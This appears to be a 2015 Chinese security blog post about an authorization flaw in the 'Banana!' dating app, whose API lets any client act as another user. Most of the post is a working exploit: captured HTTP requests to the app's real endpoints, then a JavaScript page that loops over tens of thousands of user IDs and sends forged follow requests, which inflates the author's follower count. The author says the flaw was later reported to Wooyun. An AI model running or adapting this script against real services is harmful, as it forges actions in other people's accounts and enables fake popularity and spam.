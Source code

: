 title: Banana!APP漏洞
date: 2015-11-23 11:02:38
categories: 信息安全
tags: 越权
---
> banana！单身男女汇集地！为你打开一个有趣的【香蕉人的世界】充满香蕉的性福生活，前方高能！！【性福日报】看性福日报，天天涨姿势！【性趣小组】加入性趣小组，畅谈性福生活！【性福商城】免费体验有福利，香蕉兑换有惊喜！【香蕉积分制度】看日报、聊生活、勾搭交友，如果你觉得TA棒棒哒就送TA【香蕉】吃吧！  

**下面我将一步步演示一个屌丝用户的逆袭。**  

<!-- more -->
# **抓包**  
通过Fiddler抓包可以看到，在打开一个APP上的话题时，会发出一个POST请求：
```
		POST http://interface2.0.ibananas.cn/api/group/addtopiccomment.json HTTP/1.1  
		Content-Type: application/x-www-form-urlencoded; charset=UTF-8  
		User-Agent: Dalvik/1.6.0 (Linux; U; Android 4.4.2; X9180 Build/KVT49L)  
		Host: interface2.0.ibananas.cn  
		Connection: Keep-Alive  
		Accept-Encoding: gzip  
		Content-Length: 153  

		IsAnonymous=1&TopicId=4996&ver=banana_A2.0.1&pno=yingyongbao&Content=%E3%80%82%E3%80%82%E3%80%82&CommenterId=358535&  
```
其中几个重点参数：<code>IsAnonymous</code>代表是否匿名，1为匿名，0为不匿名；<code>TopicId</code>为话题ID；<code>Content</code>为内容；<code>CommenterId</code>为评论者ID，即我的ID为358535。  
那么如何获取指定用户的ID呢？  
在打开指定用户详情页时会发出一个GET请求：  
```
		GET http://interface2.0.ibananas.cn/api/user/getothersuserspaceinfo.json?Ver=banana_A2.0.1&PNO=yingyongbao&OthersUserId=1233&UserId=358535 HTTP/1.1  
		User-Agent: Dalvik/1.6.0 (Linux; U; Android 4.4.2; X9180 Build/KVT49L)   
		Host: interface2.0.ibananas.cn  
		Connection: Keep-Alive  
		Accept-Encoding: gzip  
```
其中OthersUserId即为目标用户的ID。  
在关注其他用户时，会发出一个POST请求：  
```
		POST http://interface2.0.ibananas.cn/api/user/addattention.json HTTP/1.1  
		Content-Type: application/x-www-form-urlencoded; charset=UTF-8  
		User-Agent: Dalvik/1.6.0 (Linux; U; Android 4.4.2; X9180 Build/KVT49L)  
		Host: interface2.0.ibananas.cn  
		Connection: Keep-Alive  
		Accept-Encoding: gzip  
		Content-Length: 62  

		pno=yingyongbao&FriendId=358535&ver=banana_A2.0.1&UserId=1233&  
```
可以看出，<code>FriendId</code>为关注者ID,<code>UserId</code>为被关注者ID。  

那么假如我们修改这些参数伪造APP发出请求会怎么样呢？  

# **逆袭**  
首先是从屌丝用户逆袭成 **<s>万人瞩目的大V</s>**。  
这里我用JS写了一个脚本。  
```html
	<!DOCTYPE html>
	<html lang="en">
	<head>
		<meta charset="UTF-8">
		<title>test</title>
	</head>
	<body>
	<button id="sendPost">Start</button>
	<script type="text/javascript">
		var sendButton = document.getElementById("sendPost");

		sendButton.onclick = function() {

			for (i = 25000; i < 100000; i++) {

				var xhr = new XMLHttpRequest();
				xhr.onreadystatechange = function() {
					if (xhr.readyState == 4) {
						if ((xhr.status >= 200 && xhr.status < 300) || xhr.status == 304) {

						} else {
							alert("unsuccess: " + xhr.status);
						}
					}
				}

				xhr.open("post", "http://interface2.0.ibananas.cn/api/user/addattention.json", true);
				xhr.send("pno=yingyongbao&FriendId=" + i + "&ver=banana_A2.0.1&UserId=358535&");

			}
	</script>
	</body>
	</html>
```

脚本跑了一会儿，效果不错：  
![](/img/banana1.png)  
![](/img/banana2.png)    

# **尾声**
同样，按照上述规律可以修改脚本实现刷评论等等。   

至此，我已经没有继续玩下去的兴趣了，将漏洞报上了Wooyun。
